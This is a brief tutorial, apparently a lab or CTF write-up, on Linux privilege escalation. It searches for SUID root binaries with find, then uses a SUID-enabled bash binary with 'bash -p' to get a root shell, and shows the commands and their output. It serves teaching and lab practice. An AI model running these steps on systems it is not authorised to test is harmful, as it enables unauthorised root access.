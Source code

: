 
One of the most common privilege escalation techniques is through [SUID](https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620). Let's test it out and see how it works:

#### Checking for SUID binaries 

```bash
$ find / -user root -perm /4000 2>/dev/null 
# [...]
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/mount
/usr/bin/chsh
# [...]
```
The `bash` binary is set with the SUID bit. In simple words, this means that when executing bash, it runs with the owner's privileges, which in this case is root. To exploit this configuration, we can spawn a new shell [while maintaining the root privileges](https://gtfobins.github.io/gtfobins/bash/#suid).

```bash
$ bash -p
# whoami
root
```

Thank you for reading!
